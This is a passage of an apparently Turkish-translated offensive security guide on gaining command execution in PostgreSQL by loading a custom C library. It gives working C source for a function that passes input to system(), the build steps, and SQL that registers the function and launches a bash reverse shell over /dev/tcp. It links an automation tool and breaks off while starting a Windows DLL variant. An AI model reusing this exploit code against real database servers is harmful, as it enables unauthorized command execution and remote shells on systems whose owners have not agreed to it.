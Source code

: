 PostgreSQL sürüm 8.2'den itibaren, bir saldırganın sistemi istismar etme süreci daha zor hale getirilmiştir. Saldırganın ya sistemde zaten mevcut bir kütüphaneyi kullanması ya da özel bir kütüphane yüklemesi gerekmektedir. Bu özel kütüphane, uyumlu ana PostgreSQL sürümüne karşı derlenmeli ve belirli bir "sihirli blok" içermelidir. Bu önlem, PostgreSQL sistemlerini istismar etmeyi önemli ölçüde zorlaştırır, çünkü sistemin mimarisi ve sürüm uyumluluğu hakkında daha derin bir anlayış gerektirir.

#### Kütüphaneyi derleyin

PostgreSQL sürümünü almak için:
```sql
SELECT version();
PostgreSQL 9.6.3 on x86_64-pc-linux-gnu, compiled by gcc (Debian 6.3.0-18) 6.3.0 20170516, 64-bit
```
Uyumluluk için, ana sürümlerin uyumlu olması gerekmektedir. Bu nedenle, 9.6.x serisindeki herhangi bir sürümle bir kütüphane derlemek, başarılı bir entegrasyonu sağlamalıdır.

O sürümü sisteminize kurmak için:
```bash
apt install postgresql postgresql-server-dev-9.6
```
Ve kütüphaneyi derleyin:
```c
//gcc -I$(pg_config --includedir-server) -shared -fPIC -o pg_exec.so pg_exec.c
#include <string.h>
#include "postgres.h"
#include "fmgr.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

PG_FUNCTION_INFO_V1(pg_exec);
Datum pg_exec(PG_FUNCTION_ARGS) {
char* command = PG_GETARG_CSTRING(0);
PG_RETURN_INT32(system(command));
}
```
Sonra derlenmiş kütüphaneyi yükleyin ve komutları şu şekilde çalıştırın:
```bash
CREATE FUNCTION sys(cstring) RETURNS int AS '/tmp/pg_exec.so', 'pg_exec' LANGUAGE C STRICT;
SELECT sys('bash -c "bash -i >& /dev/tcp/127.0.0.1/4444 0>&1"');
#Notice the double single quotes are needed to scape the qoutes
```
Bu **kütüphaneyi önceden derlenmiş** olarak çeşitli PostgreSQL sürümlerinde bulabilirsiniz ve hatta **bu süreci otomatikleştirebilirsiniz** (eğer PostgreSQL erişiminiz varsa) ile:

{{#ref}}
https://github.com/Dionach/pgexec
{{#endref}}

### Windows'ta RCE

Aşağıdaki DLL, **ikili dosyanın adını** ve **kaç kez** çalıştırmak istediğinizi **girdi** olarak alır ve çalıştırır:
```c
#include "postgres.h"
#include <string.h>
#include "fmgr.h"
#include "utils/geo_decls.h"
#include <stdio.h>
#include "utils/builtins.h"

#ifdef PG_MODULE_MAGIC
PG_MODULE_MAGIC;
#endif

/* Add a prototype marked PGDLLEXPORT */
```